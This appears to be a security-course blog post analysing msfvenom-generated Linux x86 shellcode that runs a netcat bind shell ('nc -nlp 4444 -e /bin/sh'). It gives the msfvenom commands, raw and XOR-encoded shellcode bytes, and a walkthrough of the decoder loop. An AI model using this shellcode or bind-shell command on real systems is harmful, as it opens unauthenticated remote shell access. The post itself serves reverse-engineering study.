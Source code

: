 ```yaml
---
title: SLAE32 Assignment 5 -- Analyzing MSF-Venom Dynamic XOR Encoded Exec Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Reverse
  - Netcat
  - metasploit
  - msfvenom
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)
![](/pics/msfLogo.png)
## Overview
For the 5th assignment of the SLAE Exam, I will be analyzing 3 different linux x86 shellcodes created with MSF Venom.  
The first will be the payload `/linux/x86/exec`.   
+ The command being executed will be `nc -nlp 4444 -e "/bin/sh" &`  
+ This will create a bind shell, on TCP port 4444, on all network interfaces, and then background the process.  

## Testing the Command
```console
root# nc -nlp 4444 -e "/bin/sh" &
[1] 9119
root# netstat -tnalp | grep nc
tcp   0.0.0.0:4444    0.0.0.0:*  LISTEN  9119/nc
```
+ The command successfully ran and was given the process ID 9119 and the job ID of 1.  
+ The process `nc` is successfully listening on all interfaces `0.0.0.0`, on TCP port `4444`.  

Since the job is running in the background, we can use the same terminal window to access our /bin/sh listening on all interfaces, by using netcat to connect to the localhost interface (127.0.0.1) on TCP port 4444.  

### Connecting to Netcat Shell
```console
root# nc 127.0.0.1 4444
id
uid=0(root) gid=0(root) groups=0(root),46(plugdev)
```
+ We successfully are able to run commands with our netcat, bind shell.  

## Creating the Shellcode with msfvenom
Now we will use msfvenom to create a shellcode to execute our netcat, bind shell command. The output will be in C so we can easily add it to our shellcode.c program.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' --format c
Payload size: 63 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x1c\x00\x00\x00\x6e"
"\x63\x20\x2d\x6e\x6c\x70\x20\x34\x34\x34\x34\x20\x2d\x65\x20"
"\x22\x2f\x62\x69\x6e\x2f\x73\x68\x22\x20\x26\x00\x57\x53\x89"
"\xe1\xcd\x80";
```
+ This payload contains NULL bytes, rendering it useless for shellcode. We will use the builtin XOR encoder to encode our payload before we analyze it.  

### Encoding the Payload
```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &'\
 --format c --encoder x86/xor_dynamic     
x86/xor_dynamic chosen with final size 109
Payload size: 109 bytes
unsigned char buf[] =
"\xeb\x23\x5b\x89\xdf\xb0\x1a\xfc\xae\x75\xfd\x89\xf9\x89\xde"                                                         
"\x8a\x06\x30\x07\x47\x66\x81\x3f\x88\x02\x74\x08\x46\x80\x3e"                                                         
"\x1a\x75\xee\xeb\xea\xff\xe1\xe8\xd8\xff\xff\xff\x02\x1a\x68"                                                         
"\x09\x5a\x9b\x50\x64\x6a\x2f\x61\x8b\xe5\x6a\x2d\x71\x6a\x02"                                                         
"\x6a\x2d\x60\x6b\x6c\x8b\xe1\x50\xea\x1e\x02\x02\x02\x6c\x61"                                                         
"\x22\x2f\x6c\x6e\x72\x22\x36\x36\x36\x36\x22\x2f\x67\x22\x20"                                                         
"\x2d\x60\x6b\x6c\x2d\x71\x6a\x20\x22\x24\x02\x55\x51\x8b\xe3"                                                         
"\xcf\x82\x88\x02";
```

Perfect, now our shellcode is NULL free. Next we will use sctest from libemu to analyze the shellcode.

### Installing LibEmu  
I used my  64-bit Kali machine to create the 32-bit MSF Venom shellcode, and to analyze it with libemu. Unfortunately I could not find a trust-worthy download from the internet. Fortunately libemu is included in the kali repo.
```console
root# apt search libemu
libemu2/kali-rolling,now 0.2.0+git20120122-1.2+b1 amd64 [installed,automatic]
  x86 shellcode detection and emulation
```

### LibEmu Shellcode Analyzation
Now that we have libemu, we will pipe our payload from msfvenom into sctest. Using sctest from libemu, we will create a visual map of how the shellcode is being executed.  

```console
root# msfvenom --payload linux/x86/exec CMD='nc -nlp 4444 -e "/bin/sh" &' \
--encoder x86/xor_dynamic | sctest -Ss 10000 -vvv -G execNC.dot
# Convert from dot to png
root# dot -Tpng execNC.dot -o execNC.png
# open png picture with eog
eog execNC.png
```

![](/pics/execNC.png)

## Breaking Down the Flow Chart
At first this may look a little over-whelming, but once we start breaking it down, we will see it is not that bad.  

In the top most block, we can see that the shellcode is using the _Jump-Call-Pop_ technique.  

The first instruction `jmp 0x25`, jumps our Instruction Pointer `EIP` forward 25 bytes. 
+ This is a short jump. 
  - Short jumps use offsets instead of a hard-coded address. 
  - This allows the shellcode to work in the programs it is injected into.

The next instruction `call 0xffffffdd`, is a call instruction. 
+ This is similar to a jump instruction. 
  - Although before jumping, the instruction after the call instruction is pushed onto the stack. 
+ This allows the program to return to where it was, once it is done execution where it was called to. 
+ In our situation, the next instruction is actually the memory location to our string. 
  - Our string is our entire, XOR'd shellcode payload. 

The 3rd instruction `pop ebx`, _pop's_ the pointer to our payload off into the `EBX` Register.   

Once in the EBX Register, it is duplicated to the EDI Register using the instruction `mov, edi,ebx`.  

We can see that the loop, outlined using the blue arrow, is a XOR decoder loop.  
+ The decoder decodes our shellcode byte by byte using the instruction `xor [edi], al`.   

After the byte is decoded, the EDI Register is moved forward one byte using the instruction `inc edi`.   

The instruction `cmp word [edi],0x971b` compares 2 bytes (a word) starting at the memory location of EDI, with the value 0x971b.   
+ If the compare instruction returns that the 2 words match, then the result will return a 0.  
+ The `cmp` instruction subtracts the two values and sets the Zero Flag if Zero.  

The instruction `jz 0xa` will jump `EIP` forward 10 bytes, if the last instruction returned zero.   
+ This insturction is "Jump if Zero", also know as "Jump if Equal".   

If we do the math we can see that that would change our location from 0x00417019, to 0x00417023 (indicated by the black arrow).   
Remember that this is in Hex not in Decimal, do not be decieved thinking it is only moving forward four.   
```
Decimal Incrementing:  0  > 1  > 2  > 3  > 4  > 5  > 6  > 7  > 8  > 9  > 10
Hex Incrementing:      19 > 1a > 1b > 1c > 1d > 1e > 1f > 20 > 21 > 22 > 23
```
